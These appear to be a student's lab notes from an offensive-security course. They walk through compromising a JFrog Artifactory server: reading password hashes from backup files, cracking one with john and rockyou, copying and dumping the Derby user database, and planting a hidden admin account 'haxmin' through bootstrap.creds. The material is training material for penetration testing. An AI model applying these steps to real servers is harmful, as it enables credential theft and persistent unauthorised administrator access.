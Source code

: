 Artifactory is a “binary repository manager” that stores software packages and other binaries.

Binary repository managers act as a “single source of truth” for organizations to be able to control which versions of packages and applications are being used in software development or infrastructure configuration. This prevents developers from getting untrusted or unstable binaries directly from the Internet.

We can start artifactory as a daemon:
```bash
offsec@controller:/opt/jfrog$ sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
2020-06-01T14:24:17.138Z [shell] [INFO ] [][installerCommon.sh:1162 ] [main] -
Checking open files and processes limits
2020-06-01T14:24:17.157Z [shell] [INFO ] [] [installerCommon.sh:1165 ] [main] -
Current max open files is 1024
...
Using JRE_HOME: /opt/jfrog/artifactory/app/third-party/java
Using CLASSPATH:
/opt/jfrog/artifactory/app/artifactory/tomcat/bin/bootstrap.jar:/opt/jfrog/artifactory
/app/artifactory/tomcat/bin/tomcat-juli.jar
Using CATALINA_PID: /opt/jfrog/artifactory/app/run/artifactory.pid
Tomcat started.
```

We can locate a general repository for generic binaries called "generic-local":
![[Pasted image 20230620231442.png]]

The Set Me Up button at the top right of the page gives information about how to use Curl to upload and download binaries to the repository.

There is also a Deploy button that will let us upload files to the repository and specify the paths we want users to access to download them.

Clicking on generic-local expands the tree where we find a “vi” artifact listed. If we click on it, we can inspect various statistics about the file, such as the download path, who it was deployed by, when it was created and last modified, and how many times it’s been downloaded.

![[Pasted image 20230620231550.png]]

# Compromising Artifactory Backups

We have two options to use the database to compromise Artifactory. The first is through backups. Depending on the configuration, Artifactory creates backups of its databases. The open-source version of Artifactory creates database backups for the user accounts at `/<ARTIFACTORY FOLDER>/var/backup/access` in JSON format:
```json
root@controller:/opt/jfrog/artifactory/var/backup/access# cat
access.backup.20200730120454.json
...
{
	"username" : "developer",
	"firstName" : null,
	"lastName" : null,
	"email" : "developer@corp.local",
	"realm" : "internal",
	"status" : "enabled",
	"lastLoginTime" : 0,
	"lastLoginIp" : null,
	"password" : "bcrypt$$2a$08$f8KU00P7kdOfTYFUmes1/eoBs4E1GTqg4URs1rEceQv1V8vHs0OVm",
	"allowedIps" : [ "*" ],
	"created" : 1591715957889,
	"modified" : 1591715957889,
	"failedLoginAttempts" : 0,
	"statusLastModified" : 1591715957889,
	"passwordLastModified" : 1591715957889,
	"customData" : {
	"updatable_profile" : {
	"value" : "true",
	"sensitive" : false
}
...
```

We can crack the hash using john:
```bash
kali@kali:~$ sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123 (?)
...
```

# Compromising Artifactory's Database

The open-source version of Artifactory we’re using locks its Derby database while the server is running. We could attempt to remove the locks and access the database directly to inject users, but this is risky and often leads to corrupted databases. A safer option is to copy the entire database to a new location.

The database containing the user information is located at
`/opt/jfrog/artifactory/var/data/access/derby`.

We can now copy the database into /tmp and remove the lock:
```bash
offsec@controller:~$ mkdir /tmp/hackeddb
offsec@controller:~$ sudo cp -r /opt/jfrog/artifactory/var/data/access/derby
/tmp/hackeddb
offsec@controller:~$ sudo chmod 755 /tmp/hackeddb/derby
offsec@controller:~$ sudo rm /tmp/hackeddb/derby/*.lck
```

The `ij` command line tool, which allows the user to access a Derby database and perform queries against it:
```bash
offsec@controller:~$ sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
ij version 10.15
ij> connect 'jdbc:derby:/tmp/hackeddb/derby';
ij>
```

The first part of the command calls the embedded version of Java included as part of Artifactory. We’re specifying that we want to run the derbyrun.jar JAR file. The ij parameter indicates that we want to use Apache’s ij tool to access the database.

Now we can dump the database:
```bash
ij> select * from access_users;
USER_ID |USERNAME |PASSWORD |ALLOWED_IPS |CREATED |MODIFIED |FIRSTNAME |LASTNAME
|EMAIL |REALM |STATUS |LAST_LOGIN_TIME |LAST_LOGIN_IP |FAILED_ATTEMPTS
|STATUS_LAST_MODIFIED| PASSWORD_LAST_MODIF&
...
1 |admin |bcrypt$$2a$08$3gNs9Gm4wqY5ic/2/kFUn.S/zYffSCMaGpshXj/f/X0EMK.ErHdp2
|127.0.0.1 |1591715727140 |1591715811546 |NULL |NULL |NULL |internal |enabled
|1596125074382 |192.168.118.5 |0 |1591715811545 |1591715811545
...
3 |developer |bcrypt$$2a$08$f8KU00P7kdOfTYFUmes1/eoBs4E1GTqg4URs1rEceQv1V8vHs0OVm |* |1591715957889 |1591715957889 |NULL |NULL |developer@corp.local |internal |enabled |0
|NULL |0 |1591715957889 |1591715957889
3 rows selected
ij>
```

# Adding a Secondary Artifactory Admin Account

This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires root or sudo access.

We’ll log in to the controller server as offsec and navigate to the
`/opt/jfrog/artifactory/var/etc/access` folder. We then need to create a file through sudo called `bootstrap.creds` with the following content.
```
haxmin@*=haxhaxhax
```

This will create a new user called “haxmin” with a password of “haxhaxhax”. Next, we’ll need to chmod the file to 600.
```bash
offsec@controller:/opt/jfrog$ sudo chmod 600
/opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```

Now we restart artifactory:
```bash
offsec@controller:/opt/jfrog$ sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
Using the default catalina management port (8015) to test shutdown
Stopping Artifactory Tomcat...
...
router is running (PID: 12434). Stopping it...
router stopped
offsec@controller:/opt/jfrog$ sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
2020-06-01T14:38:16.769Z [shell] [INFO ] [] [installerCommon.sh:1162 ] [main] -
Checking open files and processes limits
2020-06-01T14:38:16.785Z [shell] [INFO ] [] [installerCommon.sh:1165 ] [main] -
Current max open files is 1024
...
Using CATALINA_PID: /opt/jfrog/artifactory/app/run/artifactory.pid
Tomcat started.
```

Once Artifactory is running again, we can log in with our newly-created account.
![[Pasted image 20230620232931.png]]

